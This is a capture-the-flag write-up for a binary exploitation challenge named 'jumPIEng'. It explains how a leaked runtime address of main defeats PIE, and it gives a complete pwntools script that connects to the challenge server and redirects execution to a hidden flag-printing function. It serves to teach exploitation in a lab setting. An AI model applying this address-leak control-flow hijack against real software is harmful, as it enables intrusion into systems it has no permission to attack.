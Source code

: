 # jumPIEng

**Category:** Binary Exploitation

Harry, a rookie in the realm of Capture The Flag competitions, has just begun exploring the intricacies of binary exploitation—specifically the concept of Position-Independent Executables (**PIE**). Convinced that PIE makes the binary unbreakable if any addresses are discovered, Harry challenges us to extract the flag from his program, which only leaks the runtime address of `main`. Let's prove him wrong!

nc 34.131.133.224 12346
---

## Challenge

**Provided File:** redirection


---

## Overview

1. **PIE & Address Leaks**  
   PIE randomizes the load address of the binary each time it runs. However, if you can obtain **any** function’s runtime address (like `main`), you can compute the program's **base address**.

2. **Leveraging the Main Address**  
   The challenge conveniently prints the runtime address of `main`. By subtracting the known offset of `main` in the ELF file, we can calculate the **base address** where the binary is loaded.

3. **Redirecting Execution**  
   The binary has a hidden or unreferenced function named `redirect_to_success`. Once we know the base address, we can compute where `redirect_to_success` lives in memory and redirect the program flow to it, thereby triggering the flag-print routine.

---

## Steps to Exploit

1. **Receive the Leaked Main Address**  
   - The remote program prints the address of `main`. Parse this value.

2. **Calculate the Base Address**  
   - Subtract the known offset (ELF symbol) of `main` from the leaked address:
     ```python
     base_address = leaked_main - e.symbols['main']
     ```

3. **Compute the Flag Function Address**  
   - Add the offset of `redirect_to_success` to the base address:
     ```python
     redirect_address = base_address + e.symbols['redirect_to_success']
     ```

4. **Jump to Flag Function**  
   - Send the computed address back to the challenge service, causing the program to execute the flag-printing function.

---

## Exploit Script

```python
from pwn import *

binary = './redirection'
context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = remote('34.131.133.224', 12346)  # Connect to the challenge server

# Step 1: Receive the main address
r.recvuntil('Main function address: ')
main_leaked = r.recvline()
main_leaked = int(main_leaked, 16)

# Step 2: Calculate base address
base_address = main_leaked - e.symbols['main']
log.info(f'Base address: {hex(base_address)}')

# Step 3: Compute the address of the "redirect_to_success" function
redirect_address = base_address + e.symbols['redirect_to_success']
log.info(f'Redirect address: {hex(redirect_address)}')

# Step 4: Send the address to redirect the program's execution
r.sendline(hex(redirect_address))
r.interactive()
